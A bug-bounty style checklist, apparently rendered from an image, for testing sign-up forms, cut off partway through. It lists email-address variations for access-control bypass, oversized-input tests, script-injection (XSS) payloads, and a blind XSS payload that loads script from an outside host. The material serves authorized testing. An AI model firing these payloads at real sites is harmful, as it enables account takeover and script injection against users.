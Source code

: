 Enhanced Checklist for Sign Up Vulnerabilities in Obsidian

This checklist is sorted by the potential vulnerability type and includes example payloads and additional notes. You can use it in Obsidian by checking the boxes as you test each item.

General Vulnerability Categories

1. Sensitive Information Disclosure

[ ] Existing Email Address Reflection:

Payload: email=existing@gmail.com

Note: Check for authorization tokens or other sensitive information reflected in the response.

[ ] Company Email Address Reflection:

Payload: email=admin@company.com

Note: Check if this grants extra authorities or functionalities.

[ ] Company Email Address Variations:

Payloads: admin@company.com (with space), admin@COMPANY.COM, admin@gmail.com@company.com, me+(@gmail.com)@company.com, "me@gmail.com"@company.com, <me@gmail.com>"@company.com, "me@gmail.com;"@company.com, "me@gmail.com+"@company.com

Note: Test these variations for potential access control bypass or sensitive information disclosure.

[ ] Large String Injection:

Payload: Inject large strings (50,000+ characters) into POST parameters.

Note: Monitor for errors, which may reveal sensitive information.

[ ] Retrieve Data From Deleted Account:

Payload: Use the email address associated with a previously deleted account for sign up.

Note: Attempt to recover data from the deleted account.

2. Cross-Site Scripting (XSS)

[ ] XSS Through Email Address:

Payloads:

me+(<script>alert(0)</script>)@gmail.com

me(<script>alert(0)</script>)@gmail.com

me@gmail(<script>alert(0)</script>).com

"<script>alert(0)</script>"@gmail.com

%@gmail.com

Note: Test these payloads in email addresses, usernames, first/last names, and password fields.

[ ] Blind XSS:

Payloads:

"><script src=//me.xss.ht></script>
